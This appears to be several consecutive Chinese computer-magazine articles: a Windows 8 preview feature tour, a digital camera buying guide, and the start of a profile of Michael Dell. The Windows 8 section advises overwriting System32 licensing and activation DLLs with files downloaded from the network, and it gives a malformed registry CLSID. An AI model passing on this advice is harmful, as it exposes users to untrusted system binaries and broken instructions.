补充：默认设置下，Windows 8仍然使用传统风格的资源管理器，需要手工激活新的Ribbon界面。以管理员模式打开注册表编辑器，依次跳转到“HKEY_CLASSES_ROOT\CLSID”，新建一个名为“{4F12FF5D-D319-4A79-8380-9C80384DC08}”的项，右击刚才新建的项，新建一个名为“AppID”的字符串值，双击设置该值为“{9198DA45-C7D5-4EFF-A726-78FC547DFF53}”，刷新后退出注册表编辑器。
```

# 亮点五 直接拖曳文件到地址栏

Windows 7：Windows 7已经开始支持复制地址栏的文件路径，但复制或移动文件夹却仍然相当繁琐，你必须首先打开相应目标文件夹，然后才能完成复制或移动的操作，如果拖曳到地址栏，那么目标位置只能是最后一个节点。

Windows 8：可以将文件或文件夹直接拖曳到地址栏，而且你可以选择地址栏中的任意一个节点位置，不再强求必须是最后一个节点。对于触控设备而言，这个设计可以有效减少操作次数，提高控制效率。

# 亮点六 截图之后直接发送

Windows 7：很多时候，你需要将截图与朋友或同事进行分享，一般是选择QQ或Windows Live Messenger，无形之中多了一番手脚，我们更希望在完成截图之后直接分享。

Windows 8：新的截图工具可以直接将截图作为邮件内容或邮件附件发送出去，在完成截图操作之后，选择“E-mail Recipient”可以将当前截图作为邮件内容直接发送，选择“E-mail Recipient(as attachment)”可以将当前截图以附件形式发送给对方。当然前提是已经在控制面板的“Default Programs”面板创建关联的电子邮件程序，例如Microsoft Outlook或Windows Live Mail。

# 亮点七 免虚拟光驱直接操作镜像文件

Windows 7：即使是MSDN用户，从微软官方下载的操作系统也只是一个ISO格式的镜像文件，虽然Windows 7已经可以直接刻录ISO格式的镜像文件，但刻录下来显然不太值得。大多数用户一般是选择Daemon Tools等虚拟光驱工具进行加载，或者使用WinRAR解压缩之后再进行安装，前者可能会导致Windows激活的失效，后者则既浪费时间而且又占用额外的磁盘空间。很明显，无论你选择哪一种方法，都相对比较麻烦一些。

Windows 8：Windows 8则方便多了，不需要借助第三方的虚拟光驱工具，也不需要使用WinRAR进行解压缩，我们可以使用免费的虚拟光驱解决这一麻烦。在资源管理器窗口直接双击ISO格式的镜像文件即可完成虚拟操作，或者也可以右击选择“Mount”进行装载。Windows 8会为虚拟光驱自动分配盘符，从而免去了虚拟光驱加载镜像文件的麻烦。不再需要这个虚拟光驱时，只要右击虚拟光驱盘符，从快捷菜单中选择“Eject”和“Disconnect”，即可自动卸载虚拟光驱。

# 亮点八 设置图形密码

Windows 7：设置复杂的密码，虽然可以增加安全等级，但记忆起来并不方便，而且仍容易被破解或盗取，如果考虑在平板电脑上安装Windows，如何以触摸的方式输入密码，也是一个问题。

Windows 8：设置图形密码，既可以增加安全等级，而且也不需要记忆复杂无比的密码。首先为当前账户设置密码，接下来选择“Make changes to your user account→Set up a pattern for pattern logon”。随后可以在一个4x4的阵列中自行设置登录的密码组合，登录时除了默认的PW（密码）方式登录之外，可以在“More logon options”选择图形方式，随后通过简单的触控方式在阵列进行登录，而不是通过键盘输入密码。这一方法和目前Android平台的概念较为相似，目前不少智能手机都采取类似的登录方式。

# 亮点九 直接浏览PDF文档

Windows 7：在日常学习和工作中，我们经常会接触PDF文档，即使是Windows 7支持PDF文档的预览，但前提是系统中已经安装Adobe Reader或Adobe Acrobat。虽然Adobe Reader完全免费，但下载和安装仍然相当繁琐。

Windows 8：已经内置方便的PDF Reader，可以直接浏览PDF文档，不需要安装第三方工具，在资源管理器可以直接预览PDF文档。如果需要获得更多的功能，需要手工运行gicnd.exe，建议将gicnd.exe设置为PDF文档的默认打开程序，这样就可以双击打开PDF文档。当然首先请按下“Ctrl+Shift+F9”组合键关闭透明效果。

这是一个效果极其简单的阅读界面，由于看不到可操作的菜单或功能按钮，因此这里必须通过快捷键进行操作，例如按下“Ctrl+O”组合键可以载入文档，按下F9可以选择分页方式，“Ctrl+R”是旋转的快捷键，“Ctrl+0,1,2”可以选择三种大小阅读模式。由于这里并没有提供“x”的按钮，因此只能选择传统的“Alt+F4”组合键，按下“Ctrl+P”组合键可以打开打印对话框，应该说还是相当容易上手的。本人妄猜，这也许是微软为了规避Adobe公司的反垄断指控吧？

# 亮点十 操作摄像头

Windows 7：需要安装第三方程序才能对摄像头进行操作。

```
Windows 8：直接就可以操作摄像头。在关闭Aero效果之后（按下“Ctrl+Shift+F9”组合键），在开始搜索框或运行框输入“webcam.exe”，即可提供了拍照、录像、延时拍照等等功能，如果需要退出，可以按下“Alt+F4”组合键。
```

# 亮点十一 让窗口颜色自动适应桌面背景

Windows 7: 需要安装Aura Beta2插件才能模拟实现

Windows 8:

Windows 8提供了名为“Aero Aurora”的功能，可以让Aero主题下的窗口颜色自动适应桌面背景，不需要用户作任何修改。只要启用Aero主题，每次更换Aero主题的桌面背景，当前窗口的颜色就会根据桌面背景的颜色自动进行调整。

# 亮点十二 让任务管理器变身全能

Windows 7:

只能看到程序名称，至于这个程序更丰富的信息，基本都是看不到的，当然就更别说实现其他更高级的功能了。

Windows 8:

激活开始菜单，在搜索框输入“taskui”，启动之后就可以看到新界面任务管理器，这里采取了更加直观的用户界面，可以说是组合了原有的资源管理器、任务管理器、系统配置实用程序等多个组件。默认方式下这里只会显示当前正在运行的程序，单击三角按钮可以查看选定程序的详细信息，例如“Internet Explorer”可以查看已打开的网页，“Notepad”可以查看已打开的文档。虽然只是一些文件名，“QQ2011”则可以查看当前账号和已打开的聊天窗口，单击右下角的“End Task”按钮可以立即结束某个程序。

切换到“More Information”模式，这里会增加Background Programs (后台程序)、Windows System-Critical Programs (Windows系统程序) 等内容。

# 亮点十三 Metro UI 系统设置

Windows 7:

一成不变的控制面板界面，非常不适合小尺寸的平板电脑或其他数码设备。

Windows 8:

首先按下“Ctrl+Shift+F9”组合键关闭Aero效果，运行“Systemsettings.exe”，此时会打开选择界面，可以看出Windows 8同样可以给小尺寸的平板电脑或触摸式便携设备使用，选择“Desktop Control Panel”可以打开传统的控制面板，不过这里仍然只能按下“Alt+F4”组合键进行关闭。

# 亮点十四 以触摸的方式进行浏览

Windows 7: 无法实现

Windows 8:

手动运行“\Program Files\Microsoft\Immersive Browser\Microsoft.ImmersiveBrowser\miexplore.exe”，这是一个独特的采用Metro UI的浏览器产品，对触控式操作进行了优化，引入了Windows Phone 7的色块操作风格，界面上有着明确的前进、后退、刷新和收藏按钮，使用起来非常直观。

# 亮点十五 按时间线任意恢复

Windows 7:

备份和恢复功能相对薄弱，我们往往不得不借助第三方工具。

Windows 8:

操作系统内置了类似苹果Time Machine的备份功能，名称为“History Vault”，我们可以从控制面板找到这项功能，初次使用时请手工启用。这里可以通过时间线的方式来让用户恢复编辑和删除的文档，减少用户损坏系统后重装容易丢失数据的麻烦。如果觉得默认的时间频率不能满足你的需要，可以按“Hour”或“Week”进行查看，选择需要恢复的版本（可以选择单个文件或文件夹），单击右侧的“Restore”按钮即可。

# 亮点十六 重新定义安装文件夹

Windows 7:

Windows Vista以前的系统都支持设置安装文件夹的名字，但Windows Vista和Windows 7，由于采取了磁盘镜像直接解压缩安装的方式，因此就再也无法重新定义安装文件夹。

Windows 8:

支持重新定义安装文件夹的位置，在运行框输入“gpedit.msc”，打开组策略对象编辑器窗口，依次选择“Computer Configuration→Administrative Templates→All Settings”，在右侧窗格找到“Specify settings for optional component installation and repair of operation system corruption”，双击打开属性窗口，在这里可以让用户自行设定Windows安装文件的位置以方便安装组件和修复系统，并同时支持指定一个以上的位置，这样就可以很方便的重新定义安装文件夹的位置。

# 进阶篇

对于Windows8 7955版本而言，很多高级功能需要解锁之后才可以体验，从网络下载相应的替换文件，然后替换“\Windows\System32\”文件夹下的GenuineCenter.dll、sppwmi.dll、systemcpl.dll、sic.dll、slx.dll等5个文件，同时在“HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\”手工添加一个名为“RPEnabled”的“Dword(32-位)值”，重启系统之后即可生效。

另外，启用Windows 8部分隐藏功能需要关闭Aero的透明效果，可以打开注册表编辑器，依次跳转到“HKEY_CURRENT_USER\Software\Microsoft\Windows\DWM”，在右侧窗格选择“hideblur”，将键值设置为“0”即可关闭Full DWM效果。如果你不想永久关闭，那么可以临时按下“Ctrl+Shift+F9”暂时关闭。

## 定义锁屏界面

Windows 8可以自行更换登录画面，只要对主题文件进行细微的更改即可。新的登录界面借鉴了Windows Phone 7系统的视觉效果，这是基于Windows 7登录界面设计上的巨大改进，而且现在还可以对登录界面进行自定义。

准备好对应分辨率的图片，运行Resource hacker，载入“\windows\system32\AuthExt.dll”的副本文件，在“IMAGE”节点下选择相应分辨率，例如笔者的显示器使用“1280x1024”的分辨率，那么应该选择“IMAGE1001/1033”，右击选择“Replace Resource”，随后会弹出“Replace a resurce”对话框，选择新的图片文件，type填入IMAGE，“name”填入“1001”，“language”填入“1033”，获得AuthExt.dll的操作权限之后进行替换，重启系统即可生效。

如果需要对登录界面进行更改，可以按照同样的步骤对authui.dll文件的“IMAGE\12403”资源进行操作。

## 补充：对应不同分辨率的标号

+   1001: 1280x1024
+   1002: 1280x960
+   1003: 1024x768
+   1004: 1600x1200
+   1005: 1440x900
+   1006: 1920x1200
+   1007: 1280x768
+   1008: 1360x768
+   1009: 1024x1280
+   1010: 960x1280
+   1011: 900x1440
+   1012: 768x1280
+   1013: 768x1360

# 云漫游

Windows 8开始引入漫游功能，无论你何时何地使用哪一台计算机，都会有宾至如归的感觉。在控制面板中依次选择“User Accounts→Configure advanced user profile properties”，在这里将默认的“Local profile”更改为“Roaming profile”即可设置漫游选项，目前可以漫游的内容包括：

+   个性化设置——桌面背景、Aero 玻璃色
+   可用性设置——轻松访问、放大镜、屏幕键盘、旁白、语音识别
+   语言设置——语言配置、文本预测偏好、输入法词典
+   应用设置——应用设置和搜索历史
+   Windows 设置-任务栏、Explorer、搜索和鼠标设置
+   密码——无线网络配置和已保存的网站密码

可惜的是这个版本的“Roaming profile”的功能暂时还无法使用，看来只能期待下一个版本了。

# 一键清理系统文件

Windows 7:

需要借助第三方软件，或者纯手工清理，既麻烦而且也有一定的危险。

Windows 8:

提供了一键清理系统文件的功能，打开“Disk Cleanup→Disk Cleanup”对话框，待清理的内容项目更加丰富，同时界面也更加直观，这里显示了更多的内容，部分项目例如“Downloaded Program Files”或“Temporary Internet Files”，单击“View Files”按钮，可以进一步查看详细信息，这样在确认清理时就心中有数了。

# 题外话：

写到这里，本期关于Windows 8的专题已经结束，由于篇幅的原因，Windows 8的更多特性未能作非常详细的介绍。对于大部分朋友来说，可能还没有机会亲身体验Windows 8的全新特性，不过微软很快就会开始Windows 8的公开测试，让我们拭目以待吧。

策划/《电脑爱好者》编辑部
撰稿/王志军



## 模糊减弱：

这个功能是为了防抖重点推荐功能，该模式下，相机可配合周围的亮度，自动在ISO400~6400之间调整感光度，并且在此模式下，快门速度不会低于1/50秒，从而达到同时抑制被摄体抖动和手抖动的效果，这样很好地解决了连拍速度的问题。在各种相机均提供光学防抖的前提下，拥有模糊减弱功能无疑可以进一步减少拍出虚片的可能。一般我们站在原地拍摄静物的时候可以不打开此项设置，但如果在车上等不是特别稳定的场所使用相机时，还是打开为宜。

## 小提示：

其实在实际拍摄中，拍摄者的手在拍摄过程中的抖动是客观存在的，根本的解决方法是使用三脚架。比如：要抓拍流水使其像丝一样顺滑，那就需要更长的拍摄时间，手持相机拍摄不可能完成这种任务。这就需要使用三脚架来获得绝对的稳定，这是数码相机防抖系统不可能达到的效果。



## 推荐产品 佳能A2200

### 规格参数

- CCD/CMOS尺寸：（1/2.3）英寸 CCD
- 镜头光圈：F2.8~F5.9
- 有效像素：1410万
- LCD屏幕：2.7英寸
- 镜头焦距：28~112mm
- 优点：体积小巧，拍摄简便
- 不足：电池续航能力有待提高

### 小编点评：

佳能A2200作为适合家用的数码相机，能够胜任一切日常拍摄需求。佳能A2200搭载一枚4倍光学变焦镜头，焦段涵盖28~112mm，最大光圈为F2.8，最近对焦距离为不算近也不算远的3cm微距，性能和配置都达到了主流级别。作为一部千元级入门家用相机，这样镜头配置足以满足日常家庭拍摄使用了，没有惊艳的表现但实用之极。佳能A2200的模糊减弱功能在其他不具备此功能的同类产品中，防抖性能表现卓越，即使在拍摄移动被摄体时也能减轻被摄体模糊，拍出清晰锐利的图像。用户在使用中若是怕出现虚片，打开此功能更为保险。不过此功能是调用感光度（ISO）以实现安全快门的，感光度过高照片噪点也会增多，如何使用还请自行斟酌。

## 相机拍的要远

海风：别听菜鸟的，现在已经不是胶片时代，照片的成本只是电池，在拍的时候多拍几次虚片删掉就好了。你没看现在是个手机都有500万像素/800万像素的拍摄能力，我认为买数码相机一定要变焦能力强的，起码我要看见对面宿舍晾衣服的人是谁吧（众人捂嘴笑…）。

我们如果注重相机拍摄远距离景物的能力，是购买变焦能力强的还是选择更直接的长焦相机呢？
首先，变焦能力分为光学变焦和数码变焦两种。光学变焦顾名思义，是通过镜头、物体和焦点三方的位置发生变化而产生的。当成像面在水平方向运动的时候，视觉和焦距就会发生变化，更远的景物变得更清晰，让人感觉像物体递进的感觉。光学变焦是利用不同镜头组的搭配，产生焦距变化而达成将远方景物的光线拉近至相机内的目的，画质不失真。
数码变焦是利用近似于数字影像软件中的“剪裁”功能，对中心影像做一格放大的动作。较早期的数字变焦效果是以光学取得的影像分辨率做一加工，但这却暴露出使用数字变焦而导致画面像素不足致使影像模糊的缺点。新一代的产品中则在逻辑IC中加入了“插值算法”的运算功能，藉由参考相邻像素的亮度和色彩贴入经计算后的像素。但是由于焦距没有变化，图像质量是相对于正常情况下有明显下降。

需要说明的是，有的数码相机的变焦倍数是这样计算的：用光学变焦倍数乘以数码变焦倍数所得到的就是最大变焦倍数。例如光学变焦为5倍，数字变焦为2倍，那么它的最大变焦倍数就是10倍。实际上我们在选择数码相机产品的时候，应注意其光学变焦能力，而数字变焦能力因可以通过后期软件处理得到，所以并不需要做太多考虑。

长焦相机是结合了广角与长焦端的两大优势加之数码相机的便携而生的，外观特点是比一般卡片机稍厚一些，镜头的伸缩量更大。它们的变焦倍率一直保持比较高的水准，这一点就像大家常用的旅游镜头18~200mm之类的焦段，但这些年来变焦倍率的记录一直都在不断地被超越，从20倍光变一直发展到现在的35倍光变，佳能甚至已经公布了42倍光变的专利，这个记录一直被日系厂商改变着。俗话说物极必反，相机镜头的变焦倍率越高，成像所得的画质也就相对较差，那么长焦相机如何做到如此大变焦而不损失画质，就是各厂商必需攻克的难题了。所以我们在购买时变焦能力的大小并不能完全说明问题，像海风同学的购买点是对的，但注意不要极端化。

## 小提示：

超长焦数码相机如无特殊必要，尽量不要使用最远端，如有必要放在三脚架上，用遥控快门或定时快门拍摄才能杜绝震动的危险。要知道使用350mm焦段时，用手指按下快门力度所产生的微小位移足以让整张照片虚掉。



## 推荐产品 GE X500

### 规格参数

- CCD/CMOS尺寸：（1/2.3）英寸CCD
- 镜头光圈：F3.0~F5.2
- 有效像素：1600万
- LCD屏幕：2.7英寸
- 镜头焦距：27mm~405mm
- 优点：像素高，变焦能力强
- 不足：长焦拍摄噪点控制能力稍差

### 小编点评：

GE X500拥有1600万有效像素的拍摄能力，比之价格相差好几倍的单反相机毫不逊色，这一点难能可贵。不过在高分辨率+高感光度情况下会出现明显噪点，用户使用时要注意。GE X500在拍摄时有鲜艳、黑白、怀旧、自动几种色彩模式可供选择，其中鲜艳画质比较出色，拍摄出来的照片色泽艳丽无明显色渗。长焦性能的强劲是该款相机的主要卖点，光学变焦能力达到15倍，相隔30米把人物的相貌拍清楚不在话下，在众多长焦相机中出类拔萃。不过长焦端对焦速度相对较慢是长焦相机的特点，拿稳就好。

## 大魄力全景图 小数码也可胜任

小闫：出来玩为的是看到更广阔的视野。你们这种照片拍出来没什么意思。要我说全景照片的魅力你们玩长焦的永远也不会懂，说着不慌不忙的掏出相机站在山坡上对着广阔的城市拍了几张，我们注意到小闫在拍摄过程中持相机的手在缓慢移动，拍完以后小闫拿出自己的笔记本，在大尺寸的屏幕上观察自己刚拍的照片，一张超宽幅超高像素的全景照应然而现，众人惊呼……

全景照片，通常是指符合人的双眼正常有效视角（大约水平90度，垂直70度）或包括双眼余光视角（大约水平180度，垂直90度）以上，乃至360度完整场景范围拍摄的照片。扫描全景的拍摄方法非常简单，先预估大致拍摄的全景范围，合焦后水平（也可竖直）位移直至相机确认完毕，然后相机自动生成一张完美的全景照片。在使用具备全景扫描功能的数码相机时，选择增强自动调节模式只需按下快门，相机会自动选择合适的拍摄场景，背光校正HDR拍摄模式，6张（或更多）合成1张叠加拍摄模式，可轻松获得如数码单反相机般的优异画质。这里注意，有些相机将“扫描全景模式”进一步升级为新的“智能扫描全景模式”能够识别镜头中出现的人脸和运动对象，生成自然清晰的全景图像。使用智能扫描全景模式，相机可进行每秒约10张高速连拍，并智能判断每一帧的宽度，自动将最多100张照片快速结合，构成单幅高画质全景图像。无论是拍摄山川河流，田园风光，还是摩肩接踵的街景都气势恢宏，很有震撼力。

## 小提示：

没有全景扫描功能的数码相机借助后期的一点点技巧也可以实现全景照片的拍摄。具体方法是用相机（手机也可以）把要拍摄的全景照分别拍摄，注意每张照片要求有和下一张照片衔接的重叠部分，最好达到1/3。将要组合的照片（照片文件名要求连号）在Photoshop中文件-自动-Photomerge就可以自动合成全景照片。



## 推荐产品 索尼W350

### 规格参数

- CCD/CMOS尺寸：1/2.3英寸 Super HAD CCD
- 镜头光圈：F2.7~F5.7
- 有效像素：1410万
- LCD屏幕：2.7英寸
- 镜头焦距：26mm~105mm
- 优点：外型时尚，小巧便捷，适合家用
- 不足：续航时间稍差

### 小编点评：

这是一台综合性能较全面并且具备一定性价比的相机。在相机成像系统上，高像素的传感器配合具备26mm广角焦段的卡尔·蔡司认证镜头，让其在1500元价位有着较强的竞争力。全景扫描拍摄功能是在索尼中高端相机最为吸引人的一个功能。借助全景扫描拍摄，我们可以拍摄具备180°左右视角的照片。而索尼W350上的突破，是它首次在CCD结构传感器上实现了以往专属于CMOS传感器的功能。索尼W350的全景扫描功能在使用上能够实现上下左右四个方向的扫描拍摄，并且在处理包含动态场景的扫描照片时，W350能够智能的识别运动物体，提高全景拍摄成功率。

## 3D 已成大趋势 数码相机也能拍

栋栋：你那个全景扫描好多机器都有，你看我这个，能拍3D图片。而且现在拍出来的照片不用3D显示设备，直接就可以观看。大家一阵狐疑，凑过来一看这个相机有两个镜头，所拍的照片还真有3D效果，难道这个屏幕支持裸眼3D吗？
原来这种3D相片方案很巧妙，拍摄的时候两个镜头分别拍摄了同一时刻的两张不同角度的照片，然后相机会自动将两张照片合并，并储存为一张3D立体照片，在3D自动模式中，相机可自动调整“视差”（即两张照片相互重叠时的位置），带来更加明显自然的景深感，也可使用相机的视差控制，手动调整图像效果，通过在液晶显示屏上浏览图像，可在拍摄前后迅速轻松地加强立体效果，或纠正照片错位问题。

我们在实际使用中，拍摄高山，摩天大楼等远距离的大型景物时，这项功能将突出3D立体感，而在拍摄花朵等小型物体时，又能呈现逼真自然的3D效果。用户身处火车、飞机或汽车等移动位置时，这项功能可以从两个角度连续拍摄两张照片，缔造出景深效果明显的3D立体图像，假如用户希望在飞机上拍摄窗外的巨大云朵，或从火车车窗中拍摄远处的美景，就可以使用这项功能，可以细体味3D摄影的乐趣！

### 小提示：

我们拍摄立体照片，就是在模仿自己的眼睛，立体照相机有2个镜头就像我们有2只眼睛一样，每次拍摄都会得到两张不同视角的照片，构成一组立体照片，但我们生活中只有普通相机，普通相机只有一个镜头也就是一只眼睛，那么怎么样才能用普通相机去拍摄立体照片呢？其实很简单，普通相机不能一次拍摄两张照片，但我们可以分别两次拍摄，先把相机作为左眼拍摄一次，再把相机向右移动后作为右眼去拍摄一次，以人眼的视差标准这个移动角度不要超过12度，就像“独眼人”移动着脑袋寻找“立体感”，用普通相机移动着拍摄两次，也能得到两张不同视角的照片，构成一组立体照片。



## 推荐产品 富士 REAL 3D W1

### 规格参数

- CCD/CMOS尺寸：2×(1/2.33)英寸CCD
- 镜头光圈：F3.7-F4.2
- 有效像素：1000万
- LCD屏幕：2.8英寸
- 镜头焦距：(35-105) mm×2
- 优点：双镜头拍摄功能丰富
- 不足：作为非长焦距卡片机机身稍显厚重

### 小编点评：

富士3D数码相机W1是目前首款采用双镜头拍摄立体图像的消费级数码影像产品，我们浏览拍摄的3D照片可以身临其境的感受到但是拍摄的意境，这是普通相机不能比拟的。富士3D数码相机W1已成为大趋势的3D显示提供了更低的门槛，推荐给对3D立体显示有爱的朋友。

## 人物拍摄 还得看内置滤镜

峰：拍风景几张就够了，相机买来最多的还是拍人像。如果被摄人脸上有瑕疵，得后期修复，你那什么Photoshop的功能我这个相机就有。众人一脸疑惑，凑近一看才知道这个相机有美容和修饰功能。
我们在拍摄人像照片时说得最多的就是“笑一笑，茄子~”。目的就是在照片中留下幸福的那一刹那，但是强颜欢笑的被摄人物的笑容很容易僵硬，每次都重复这一过程未免太累，有了笑脸捕捉功能，只要对准被摄人物，相机就可以自动针对他笑的是否“合格”，有些相机还“定制笑容”，确定笑到什么程度再拍摄，也很趣味。
不过比起笑脸捕捉，修饰功能显然更强大，我们拍摄的人物放在电脑上一看有时会说，修一修就完美了。如果使用了具备修饰功能的数码相机就算拍到了不完美的脸也可以修饰它，可以为照片中的人物淡化皱纹，美白牙齿，红润脸颊，几乎随身带了一位“化妆师”。

### 小提示：

画面修饰功能虽可以带来意想不到的结果，但用多了会对整体画面带来损伤，还是那句话“过犹不及”。



## 推荐产品 松下 Lumix DMC-FP7

### 规格参数

- CCD/CMOS尺寸：1/2.33英寸 CCD
- 镜头光圈：F3.5-5.9
- 有效像素：1610万
- LCD屏幕：3.5英寸
- 镜头焦距：35mm~140mm
- 优点：内置美容滤镜方便人像拍摄
- 不足：无明显缺点

### 小编点评：

就人像拍摄而言，松下 Lumix DMC-FP7相机很新奇的美容功能省去了后期的修改，可以一步到位的把人像拍好，在同类产品中表现优异，美化后的人物面部自然、有光泽，与不美化的照片有很大区别，但美化的程度浅尝辄止为佳。毕竟还原真实的拍摄场景才是相机的本来工作。

## 个性时代 我自拍

小美：其实我和男朋友用最多的就是自拍了，用以前那个相机只能估算差不多的位置，拍出来好多不是没有头就是少半张脸，现在好了，我有个双屏幕的相机，镜头对着我俩就能知道拍出来什么样子。
双屏相机在前面还有一个较小的液晶屏幕，这个功能更主要的是突出了玩的特点，这里重点介绍一下小美的玩法仅供大家参考。在双屏玩法中，通过跳拍模式，在按下快门后，只要在前置显示屏出现跳跃提示的动画图像时，与恋人手拉手跳起，相机将会在你滞留在空中的短暂瞬间自动进行三次连续拍摄，最精确的捕捉到你们两跳跃于半空的场景。在熟悉操作后，甚至可以拍下空中漫步的神奇照片。另外，当与心爱的另一半在一起窝在沙发上喃喃细语时，如果你开启了三星双屏相机的双人合影模式，在你们心有灵犀彼此靠近的那一刻，相机也将自动完成拍摄，捕捉到最真实自然的亲密合影。双屏幕技术含量虽说不高，但很好的解决了自拍时遇到的问题，值得向有这方面追求的用户推荐。

### 小提示：

在自拍的时候，由于取景器一端没有人把控，首选相机的自动档位(P档)，焦段应该尽量用到相机的广角端，这样拍摄的效果才有保证。



## 推荐产品 三星ST700

### 规格参数

- CCD/CMOS尺寸：1/2.33英寸 CCD
- 镜头光圈：F3.3-F5.9
- 有效像素：1610万
- LCD屏幕：3英寸
- 镜头焦距：26mm~130mm
- 优点：双屏幕设计适合自拍
- 不足：无明显不足

## 金刚铁骨 看我三防相机

在我们玩得很尽兴的时候，突然小健的相机脱手而出，落在台阶上啪啪地往下滚，最后掉到水塘里。大家的心也跟着狂跳一阵，“天哪，小健快去捞！”水塘并不深，拿起相机之后除了小健在场所有人都感到惋惜。小健把泥水擦干净，不慌不忙的开机浏览起刚才拍过的照片，大家面面相觑不知说什么好了。
原来小健是个马大哈，自己手机MP3总挨摔，在买数码相机的时候就有所准备，特地选了一款“三防”数码相机。

所谓三防，是指“防尘”、“防震”、“防水”这三者。具备三防功能的相机外壳都是全金属机身，镜头外也有防水玻璃，各按钮元器件之间气密性十分卓越。这里要注意防震和防水的各自指标是不一样的。常见防震相机具备1.5米高度自由落体的震度，一般从桌子掉到地上大可不用担心，但是落差太大就不能保证相机内部芯片不受损害。防震性能好一些的相机可以做到3米落体无伤害，由于加固了装甲相机本身体型不会太轻薄，小健这回就多亏买了个“3米跳台”的相机。

防水性能一般有三种，最浅显的为防溅水功能，一般我们在娱乐场玩激流勇进大可以迎着水拍摄，别把相机掉到水里就OK。第二类防水为水下三米拍摄，我们可以到游泳池里拍摄水下画面，别有一番情趣，但3米以下的水压难保相机不会进水，最高防水性能可以到达水下10米，不折不扣的潜水相机，我们去海边潜水，可以用它记录下海底的有趣生物，向朋友炫耀一下保证引来无尽羡慕。

自己的相机没有防水功能也不要紧，买个数码相机用的防水袋就可以了（淘宝20~30元）。对于小数码相机一个通用型的足够，执意选择有镜头伸缩量的防水袋。对于单反相机，足有对应其专属型号的防水袋（淘宝70~100元）。注意，这类防水袋质量就算过硬也不要在水下长时间拍摄，毕竟不能把自己的宝贵的相机押宝在一个塑料袋上。

### 小提示：

千万不要把水下拍摄想得太简单，水压大的时候一步一步的设置相机出错率很高，水位越深能见度越低，所以水下拍摄时应首选相机的全自动档位（Auto档）。令水下手持相机的时候一定要牢牢的把相机挂绳套在手臂上，如果掉落水中想要抬起可就费劲了。



## 推荐产品 佳能D10

### 规格参数

- CCD/CMOS尺寸：1/2.3英寸 CCD
- 镜头光圈：F2.8-F4.9
- 有效像素：1210万
- LCD屏幕：2.5英寸
- 镜头焦距：35mm~105mm
- 优点：防水、抗寒、防震性能优异
- 不足：外壳容易划伤

### 小编点评：

佳能D10相机是不折不扣的“三防”相机，放置防震性能在同类产品中首屈一指，可以适应严酷环境的拍摄任务，一般的轻微磕碰根本不会对其造成任何故障，水下10米的防水性能也让潜水爱好者十分青睐，如果你是登山、潜水爱好者佳能D10是你的好选择。

策划/《电脑爱好者》编辑部 监制/周璟 撰稿/老杜 王晓迪 周璟

## 创始人回归能否成为企业救世主

## 戴尔、杨致远、乔布斯的不同命运


在IT史上，他们曾经是一个神话，他们一手缔造了一个伟大的公司，但是由于种种原因，他们在公司如日中天的时候退出，而在公司面临危难的时候，又选择了回归。但是世事无常，造化弄人，并非所有的复出创始人都获得了成功，尽管他们有能力创建一家公司，但并不一定能带领公司走出困境。乔布斯带领苹果创造了新的辉煌；杨致远却无力回天，又黯然退出；戴尔现在则依然前途未卜。
本次特别话题将带您走进这些传奇人物的传奇人生，您会感受到他们的激情和天赋，也会感叹命运的多舛；您不仅能看到他们奇迹般的创业史，也能看到回归后的不同命运。


**戴尔**
**前面的路还很长**
迈克尔·戴尔是PC界的另一个传奇，他不依靠领先的技术，而是依靠一种观念，一种商业模式。并且在当时普遍不被看好的商业模式取得了巨大的成功，其创造的戴尔公司的成长速度当年甚至可以用坐火箭来形容。1984年，戴尔公司成立，1998年，戴尔公司的年收入达到180亿美元，公司市值10年内上升了360倍，其增长率为业界平均值的4-5倍。戴尔个人的财富也扶摇直上，1998年，在《福布斯》评出的全球100大科技富翁榜，戴尔的个人财富增至126.7亿元，排名第四，并且在排名公布几天后，其财富就超过了排名第三的鲍尔默。2000年，《财富》杂志公布了2000年美国40岁以下富豪排行榜，戴尔高居榜首。
不过，成也萧何败也萧何，这种模式成就了戴尔的辉煌，也为戴尔后来的困境埋下了祸根。2006年8月18日，戴尔公司发布了令人失望的2006财年第二季度财报。报告显示，第二季度净利润同比下滑51%，这是利润自1984年以来的首次下滑。2005财年第二季度，戴尔的净利润为10.2亿美元，而2010财年第四财季净利润为9.27亿美元，也就是说直到现在，戴尔还没有恢复当年的业绩。
**天生的营销大师**
1965年，迈克尔·戴尔出生在美国的德克萨斯州，从小天资聪颖，人称小神童。小学三年级时，戴尔在杂志上看到一则广告：“只需通过一次测试，就可获得高中文凭。”于是，小戴尔准备连跃9年，申请考试，以获得高中文凭。一天晚上，一位测试公司的女雇员找到了戴尔家，准备为其做高中文凭资格测试，戴尔的母亲听说后惊愕不已，从浴室里叫出8岁的戴尔，这个一脸幼稚的小孩让测试员也哭笑不得。
虽然大家都认为这只是一个恶作剧，但是小戴尔对此的确很严肃、认真。从小时候开始，戴尔就已经表现出强烈的不走寻常路、希望消灭中间环节、快速达到目标的个性，这或许能为戴尔开创PC的直销找到某种解释。
此后，戴尔的营销天才开始展现，9岁，戴尔就收集邮票，并在《林氏邮票新闻》上刊登“戴尔的邮票”的广告，净赚了2000美元。16岁，戴尔得到了一份报纸订阅的推销工作，戴尔注意到潜在的客户主要为两类人：刚刚结婚的和刚刚搬家的。因为，刚刚结婚的都要到法院领证，这些信息都是公开的，于是，戴尔雇了一大批中学生到休斯顿地区的16个郡的法院搜集这些名录，同时到专业的抵押公司，从最大的抵押者那里寻找最有可能搬迁的人。然后，戴尔寄去了信，承诺提供两周的免费服务，从而赢得了很多客户。戴尔一下子成为了《休斯顿邮报》的主要销售商，当时的年收入已达18000美元。
后来，戴尔迷恋上了计算机，但是与其他技术天才不同，戴尔从PC销售中发现了商机，他从批发商那里将积压的PC以批发价买回，再在机器上增加一些特性，如更多的内存和磁盘驱动器，然后在当地登出广告，以低于零售价10%-15%出售。戴尔买来内存、调制解调器、磁盘驱动器以及更大的显示器，将计算机升级，然后卖出，弄得家里就像电脑铺。
就这样，戴尔度过了初中、高中，在父母的要求下，考入德州大学学习生物学。在宽松的大学里，戴尔如鱼得水。1984年1月2日，戴尔注册了“PC有限公司”，在当地报纸上打出广告，每月收入已达5万-8万美金。5月份，一年级课程考试完毕，“戴尔计算机公司”成立，“工厂”也从宿舍移到了一个约93平米的办公室。
